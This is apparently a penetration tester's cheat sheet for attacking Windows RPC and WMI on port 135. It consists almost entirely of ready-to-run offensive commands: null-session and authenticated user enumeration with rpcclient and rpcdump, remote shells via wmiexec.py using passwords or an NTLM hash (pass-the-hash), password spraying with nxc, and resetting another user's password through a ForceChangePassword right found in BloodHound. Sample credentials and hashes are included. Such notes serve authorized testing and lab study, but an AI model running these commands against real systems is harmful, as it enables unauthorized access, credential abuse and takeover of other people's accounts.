 Port 135, high-numbered ports for WMI connections

no creds:
```
nmap -p 135 --script=rpcinfo <target-ip>
```

```
rpcclient -U "" <target-ip>
```

```
python rpcdump.py <target-ip>
```
creds or if connected:
```
rpcclient -U "joe%Flowers1" -c enumdomusers 172.16.247.10
```

shell:
```
wmiexec.py domain/user:password@192.168.1.10
```
```
python wmiexec.py domain/user@192.168.1.10 -hashes :aad3b435b51404eeaad3b435b51404ee:cc36cf7a8514893efccd332446158b1a
```

spray:
```
nxc wmi 192.168.1.1 -u user -p pass
```

if owned user in bloodhound has ForceChangePassword permission over another user:
```
rpcclient -U 'rsmith' //10.10.146.118
```
- put in password, then:
```
setuserinfo2 ewalters 23 "d4nk!!!"
```

